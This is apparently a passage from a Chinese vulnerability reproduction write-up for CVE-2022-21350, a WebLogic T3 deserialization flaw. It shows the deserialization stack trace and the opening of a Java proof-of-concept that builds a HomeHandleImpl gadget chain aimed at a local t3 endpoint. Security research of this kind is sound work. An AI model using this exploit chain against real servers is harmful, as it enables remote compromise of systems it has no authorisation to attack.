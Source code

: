 ```
isDebuggingSession:1525, SessionData (weblogic.servlet.internal.session)
toString:1537, SessionData (weblogic.servlet.internal.session)
readObject:86, BadAttributeValueExpException (javax.management)
invoke0:-1, NativeMethodAccessorImpl (sun.reflect)
invoke:62, NativeMethodAccessorImpl (sun.reflect)
invoke:43, DelegatingMethodAccessorImpl (sun.reflect)
invoke:498, Method (java.lang.reflect)
invokeReadObject:1170, ObjectStreamClass (java.io)
readSerialData:2178, ObjectInputStream (java.io)
readOrdinaryObject:2069, ObjectInputStream (java.io)
readObject0:1573, ObjectInputStream (java.io)
readObject:431, ObjectInputStream (java.io)
readObject:73, InboundMsgAbbrev (weblogic.rjvm)
read:45, InboundMsgAbbrev (weblogic.rjvm)
readMsgAbbrevs:325, MsgAbbrevJVMConnection (weblogic.rjvm)
init:219, MsgAbbrevInputStream (weblogic.rjvm)
dispatch:557, MsgAbbrevJVMConnection (weblogic.rjvm)
dispatch:666, MuxableSocketT3 (weblogic.rjvm.t3)
dispatch:397, BaseAbstractMuxableSocket (weblogic.socket)
readReadySocketOnce:993, SocketMuxer (weblogic.socket)
readReadySocket:929, SocketMuxer (weblogic.socket)
process:599, NIOSocketMuxer (weblogic.socket)
processSockets:563, NIOSocketMuxer (weblogic.socket)
run:30, SocketReaderRequest (weblogic.socket)
execute:43, SocketReaderRequest (weblogic.socket)
execute:147, ExecuteThread (weblogic.kernel)
run:119, ExecuteThread (weblogic.kernel)
```

# 漏洞复现

**POC如下**

```
package com.supeream;

import weblogic.ejb.container.internal.BusinessHandleImpl;
import weblogic.ejb20.internal.HomeHandleImpl;
import weblogic.servlet.internal.AttributeWrapper;
import weblogic.servlet.internal.session.FileSessionData;
import weblogic.servlet.internal.session.SessionData;

import javax.management.BadAttributeValueExpException;
import javax.naming.CompoundName;
import javax.naming.Name;
import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.util.Map;
import java.util.Properties;
import java.util.concurrent.ConcurrentHashMap;

public class CVE_2022_21350 {
    public static void main(String[] args) throws Exception {

        // 过this.isValid()
// 构造HomeHandleImpl，sink点
        HomeHandleImpl homeHandle = new HomeHandleImpl();
        Field serverURLF = homeHandle.getClass().getDeclaredField("serverURL");
        serverURLF.setAccessible(true);
        serverURLF.set(homeHandle, "t3://127.0.0.1:7001/");
```